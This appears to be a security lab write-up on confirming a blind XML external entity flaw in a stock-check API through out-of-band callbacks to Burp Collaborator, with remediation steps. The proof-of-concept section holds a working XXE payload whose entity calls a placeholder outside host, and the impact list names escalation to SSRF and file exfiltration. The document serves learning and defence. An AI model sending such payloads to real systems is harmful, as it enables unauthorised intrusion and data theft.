

# Blind XXE – Out-of-Band Detection via Burp Collaborator

## Summary

A **Blind XML External Entity (XXE)** vulnerability was identified in the stock check feature. The application parses XML input but does not return any output, making the vulnerability undetectable in-band. By triggering out-of-band (OOB) interactions to a Burp Collaborator server, the XXE was confirmed.

## Technical Details

- **Endpoint:** Stock Check API (POST request)
- **Content-Type:** `application/xml`
- **Blind Nature:** Server processes XML but displays no response content

---

## Proof of Concept

### Step 1: Legitimate Request

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
    <productId>1</productId>
</stockCheck>
```

### Step 2: Malicious Payload with Collaborator

Inserted an external entity pointing to a Burp Collaborator subdomain:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
<stockCheck>
    <productId>&xxe;</productId>
</stockCheck>
```

### Step 3: OOB Interaction Confirmed

The Burp Collaborator received DNS and HTTP callbacks from the target server, confirming the XXE:

```
Collaborator payload: zk2qwjl2oz1efj5149vtozzjjgigz
```

> **[Screenshot: Burp Collaborator tab showing successful DNS and HTTP interactions received from the vulnerable server]**
  
---

## Impact

Despite being blind, this vulnerability can be escalated to:

- **Server-Side Request Forgery (SSRF)** – Access internal services and cloud metadata endpoints
- **Data Exfiltration** – Using parameter entities to extract files via OOB channels
- **Denial of Service** – Billion Laughs entity expansion attack

---

## Remediation

1. Disable DTD and external entity processing in the XML parser
2. Use JSON instead of XML where possible
3. Implement network egress filtering to block outbound requests to untrusted destinations
